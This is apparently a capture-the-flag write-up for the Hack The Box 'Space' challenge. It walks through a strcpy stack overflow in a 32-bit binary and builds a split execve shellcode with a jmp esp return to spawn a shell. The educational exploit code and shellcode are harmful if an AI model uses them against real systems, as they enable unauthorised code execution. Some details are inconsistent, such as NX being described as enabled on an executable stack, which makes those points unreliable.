 # Space

This challenge was an easy shellcoding based challenge wherein the constraints were length. We had to cleverly make use of a shellcode in order to spawn the shell. To understand better, let's dive right in!

## Preliminary ananlysis on the binary:
- file:

![file](https://github.com/shravya-bhaskara/shravya-bhaskara.github.io/blob/main/pwn/hack%20the%20box/space/Screenshot%20from%202021-10-14%2013-03-54.png)

- permissions:

![permissions](https://github.com/shravya-bhaskara/shravya-bhaskara.github.io/blob/main/pwn/hack%20the%20box/space/Screenshot%20from%202021-10-14%2013-05-08.png)

As we can NX is enabled. Rop is another way to approach and solve this problem, however we shall make use of the shellcode as the stack is already executable in nature. 

## Approach:
To state the obvious, we will need an execve shellcode to pop out a shell! However we must look into the binary given and find out the vulnerability!

Below is the disassembly for main():
```   
   0x080491da <+11>:	mov    ebp,esp
   0x080491dc <+13>:	push   ebx
   0x080491dd <+14>:	push   ecx
   0x080491de <+15>:	sub    esp,0x20
   0x080491e1 <+18>:	call   0x80490d0 <__x86.get_pc_thunk.bx>
   0x080491e6 <+23>:	add    ebx,0x20de
   0x080491ec <+29>:	sub    esp,0xc
   0x080491ef <+32>:	lea    eax,[ebx-0x12bc]
   0x080491f5 <+38>:	push   eax
   0x080491f6 <+39>:	call   0x8049040 <printf@plt>
   0x080491fb <+44>:	add    esp,0x10
   0x080491fe <+47>:	mov    eax,DWORD PTR [ebx-0x4]
   0x08049204 <+53>:	mov    eax,DWORD PTR [eax]
   0x08049206 <+55>:	sub    esp,0xc
   0x08049209 <+58>:	push   eax
   0x0804920a <+59>:	call   0x8049050 <fflush@plt>
   0x0804920f <+64>:	add    esp,0x10
   0x08049212 <+67>:	sub    esp,0x4
   0x08049215 <+70>:	push   0x1f
   0x08049217 <+72>:	lea    eax,[ebp-0x27]
   0x0804921a <+75>:	push   eax
   0x0804921b <+76>:	push   0x0
   0x0804921d <+78>:	call   0x8049030 <read@plt>
   0x08049222 <+83>:	add    esp,0x10
   0x08049225 <+86>:	sub    esp,0xc
   0x08049228 <+89>:	lea    eax,[ebp-0x27]
   0x0804922b <+92>:	push   eax
   0x0804922c <+93>:	call   0x80491a4 <vuln>
   0x08049231 <+98>:	add    esp,0x10
   0x08049234 <+101>:	mov    eax,0x0
   0x08049239 <+106>:	lea    esp,[ebp-0x8]
   0x0804923c <+109>:	pop    ecx
```
As we can see, the size of the stack is 0x20, whereas only 0x1f bytes of input data are read! Which means there is no possibility of an overflow. However a look into the vuln() function shows:

```
   0x080491a4 <+0>:	push   ebp
   0x080491a5 <+1>:	mov    ebp,esp
   0x080491a7 <+3>:	push   ebx
   0x080491a8 <+4>:	sub    esp,0x14
   0x080491ab <+7>:	call   0x8049243 <__x86.get_pc_thunk.ax>
   0x080491b0 <+12>:	add    eax,0x2114
   0x080491b5 <+17>:	sub    esp,0x8
   0x080491b8 <+20>:	push   DWORD PTR [ebp+0x8]
   0x080491bb <+23>:	lea    edx,[ebp-0xe]
   0x080491be <+26>:	push   edx
   0x080491bf <+27>:	mov    ebx,eax
   0x080491c1 <+29>:	call   0x8049060 <strcpy@plt>
   0x080491c6 <+34>:	add    esp,0x10
   0x080491c9 <+37>:	nop
   0x080491ca <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491cd <+41>:	leave  
   0x080491ce <+42>:	ret 
   ```
   From the above snippet of the disassembly of vuln(), we can see that strcpy() is being used and therefore we can overrwite eip to get a shell. 
   
   To find the buffer size before eip, we shall give a random input buffer of length 0x1f. 
   ```buf = cyclic(0x1e)```
   
   ![context](https://github.com/shravya-bhaskara/shravya-bhaskara.github.io/blob/main/pwn/hack%20the%20box/space/Screenshot%20from%202021-10-14%2014-31-54.png)

   In the above snippet, for our inp = "aaaabaaacaaadaaaeaaafaaagaaaha", segfault occurs at ```0x61666161```. i.e eip is located after 18 bytes of input data.
   
   The total size of our input is only 31 bytes. Which means, we need to split a shellcode in such a way that the first part of the shellcode compromizes the last 9 bytes of our input data. The second part of our shellcode must account for the first 18 bytes of input data.
   
   This can be further explained as:
   Consider the shellcode:
   ```
      31 c9                   xor    ecx, ecx
      31 d2                   xor    edx, edx
      52                      push   edx
      68 2f 2f 73 68          push   0x68732f2f
      68 2f 62 69 6e          push   0x6e69622f
      89 e3                   mov    ebx, esp
      6a 0b                   push   0xb
      58                      pop    eax
      cd 80                   int    0x80
   ```
The above shellcode is for an x86 execve syscall. We are required to split the shellcode in such a way that:
   - first 18 bytes: part1 of shellcode
   - return address (eip) : jmp esp
   - remaining 9 bytes: part2 of shellcode
      
   ## Splitting the shellcode:
   
   ```
   shell1 = 'xor ecx, ecx\n'
   shell1 += 'xor edx, edx\n'
   shell1 += 'sub esp, 0x16\n'
   shell1 += 'call eax\n'
   shell1 = asm(shell1)

   shell2 = 'push edx\n'
   shell2 += 'push 0x68732f2f\n'
   shell2 += 'push 0x6e69622f\n'
   shell2 += 'mov ebx, esp\n'
   shell2 += 'push 0xb\n'
   shell2 += 'pop eax\n'
   shell2 += 'int 0x80\n'
   shell2 = asm(shell2)
```

  - len(shell1) = 9 and len(shell2) = 18
  - While giving input it is essential that the last 9 bytes are executed along with the first 18! Thus a ```jmp``` to ```esp``` after the first 18 bytes i.e overwriting ```eip``` with ```jmp_esp``` instruction would make sure the smooth execution of our shellcode.

